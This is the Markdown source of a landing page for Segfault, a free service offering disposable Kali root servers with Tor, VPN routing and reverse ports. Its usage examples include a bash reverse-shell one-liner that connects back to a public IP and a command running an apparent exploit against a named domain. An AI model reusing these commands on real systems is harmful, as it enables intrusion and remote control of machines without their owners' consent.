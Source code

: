 ```yaml
---
layout: default
title: Segfault
description: Disposable Root Servers.
---
```


<!-- <div style="width:80%; margin:auto">
</div> -->

## Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```
{:refdef: style="text-align: center;"}
NEW: Start a [Remote Desktop](https://shell.segfault.net) inside your Browser.
{: refdef}

{:refdef: style="text-align: center;"}
![login screen](sf-login.png){:height="80%" width="80%"}
{: refdef}

## What it does

__Segfault__ offers free unlimited Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection.

* Dedicated `Root Server` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to `.onion` addresses.
* Log in via `.onion`, `.gsocket` or direct `ssh` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured `.onion` web server. Just put your files in /onion.
* Encrypted storage in `/sec` and `/home` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

## Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**

```shell
apt install nmap && nmap -thc
```

**Work the Internet**

```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**

```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt

# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Start Firefox or a Remote Desktop X11/GUI:**

```shell
startxvnc
```

**Work the DarkNet:**

```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**

```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**

```shell
ssh -D 127.0.0.1:1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```
<!-- Windows does not like -D 1080 and needs 127.0.0.1:1080 (and does not like 127.1:1080 either) -->

**Connect to your own public PORT:**

```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.

# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

## How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](free) in place. You may want to [upgrade your server](upgrade) and go unrestricted.

## Similar Services

- [SDF Public Access Unix](http://sdf.org/)
- [WindowsOnFly](https://app.apponfly.com/trial)
- [OnWorks](https://www.onworks.net/os-distributions/debian-based/free-kali-linux-online)
- [FreeShell](https://freeshell.de/)
- [Oracle Cloud Free Tier](https://www.oracle.com/uk/cloud/free/)
- [Play With Docker](https://www.docker.com/play-with-docker/)
- [Trash.net](https://www.trash.net/)
- [Tilde.club](http://tilde.club/)
- [and many others...](https://free-for.dev/)

## Love Research. Hate Abuse.

We do not tolerate abuse. Contact us on [Telegram](https://t.me/thcorg) or email root at thc.org if you have any concerns.

## Contact

{% include contact-details.md %}
